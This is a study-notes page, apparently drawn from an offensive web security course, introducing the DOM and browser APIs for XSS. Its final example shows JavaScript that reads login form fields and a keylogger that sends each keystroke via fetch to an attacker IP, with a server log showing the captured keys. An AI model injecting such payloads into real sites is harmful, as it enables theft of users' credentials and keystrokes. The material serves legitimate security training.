

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# JavaScript 101

## DOM

> _The content below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

In layman's terms when a web page is loaded, the browser processes its HTML code, and creates a [Document Object Model (DOM)](https://developer.mozilla.org/en-US/docs/Web/API/Document\_Object\_Model) of the page (DOM tree). JavaScript (JS) is used to access and modify all of the DOM's elements in order to create dynamic HTML content. XSS's goal is to inject JS code for accessing and/or modifying the page's DOM.

The interaction between HTML and the DOM is nicely described by [Marie Chatfield](https://mariechatfield.com/blog/html-vs-dom?external\_link=true): think of a set of architectural plans (HTML) given to a builder (browser), who then turn those plans into a house (DOM) (Figure 1).

<figure><figcaption><p>Figure 1: A set of plans (HTML) is given to a builder with a book (browser) that is turned into a house (DOM) (image taken from <a href="https://mariechatfield.com/blog/html-vs-dom?external_link=true"><em>here</em></a>).</p></figcaption></figure>

For instance, let's say that an HTTP response contains the following HTML code.

```html
<!-- an example HTML document -->
<!DOCTYPE html>
<html>
<head>
  <title>My Document</title>
</head>
<body>
  <h1>Hello, World!</h1>
  <p>This is a paragraph.</p>
</body>
</html>
```

The browser will processes that and create the following DOM.

```html
<!-- the corresponding DOM -->
- Document
  - html
    - head
      - title
        - "My Document"
    - body
      - h1
        - "Hello, World!"
      - p
        - "This is a paragraph."

```

If our goal was to modify the `h1` element, we could do this using JS.

```javascript
// modifying the h1 element
document.querySelector('h1').textContent = 'Hello, DOM!';
```

There are many built-in [web APIs](https://developer.mozilla.org/en-US/docs/Web/API), but the following are the most useful from an XSS-standpoint.

## Web APIs

### Console

The [`console`](https://developer.mozilla.org/en-US/docs/Web/API/Console\_API) interface is used for debugging tasks, such as logging messages (`console.log`).

### Window

The [`window`](https://developer.mozilla.org/en-US/docs/Web/API/Window) interface represents a window containing a DOM object. The `document` property points to the DOM document loaded in that window. Some useful properties are `localStorage`, `location`, and `alert`.

### Document

The [`document`](https://developer.mozilla.org/en-US/docs/Web/API/Document) interface represents any web page loaded in the browser and serves as an entry point in the web page's content, which is the DOM tree. This is the most effective interface for exploiting an XSS flaw.

### Fetch

The [`fetch`](https://developer.mozilla.org/en-US/docs/Web/API/Fetch\_API) interface allows fetching local and remote resources. It is non-blocking, i.e., the UI won't be locked up while the request is made and the response is returned. It does not return the data right away, instead, it returns a promise to complete the execution. To access the response, we need to use the `then` method and pass in a function to execute when the response is available.

## Example

We have an app which contains a login form and our goal is to extract the `username` and `password` field values. We can use the `document` and the `console` APIs to achieve that (Figure 1).

> _In HTML, text boxes are created using the `input` tag._

```javascript
// save the returned array into a variable
let inputs = document.getElementsByTagName("input")
// loop through the elements and extract their value
for (let input of inputs) {
  // log each value to the console
  console.log(input.value)
```

<figure><figcaption><p>Figure 1: Extracting the values of the targeted fields.</p></figcaption></figure>

We might also want to create a custom keylogger to extract information (Figure 2).

```javascript
// a function the logs keypresses to the console
function logKey(event){
    console.log(event.key)
}
// execute the function every time a key is pressed
document.addEventListener('keydown', logKey);
```

<figure><figcaption><p>Figure 2: Creating a custom keylogger.</p></figcaption></figure>

If we send the above script to our target the keystrokes will be logged into their browser's console, but we won't have access to it. We can modify our script and use the `fetch` API to exfiltrate the data.

```javascript
// a function the logs keypresses to the console
function logKey(event){
    fetch("http://192.168.45.214/k?key=" + event.key);
}
// execute the function every time a key is pressed
document.addEventListener('keydown', logKey);
```

```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.168.101 - - [04/Aug/2024 10:21:55] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:55] "GET /k?key=I HTTP/1.1" 404 -
192.168.168.101 - - [04/Aug/2024 10:21:55] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:55] "GET /k?key= HTTP/1.1" 404 -
192.168.168.101 - - [04/Aug/2024 10:21:55] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:55] "GET /k?key=L HTTP/1.1" 404 -
192.168.168.101 - - [04/Aug/2024 10:21:56] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:56] "GET /k?key=i HTTP/1.1" 404 -
<SNIP>
```
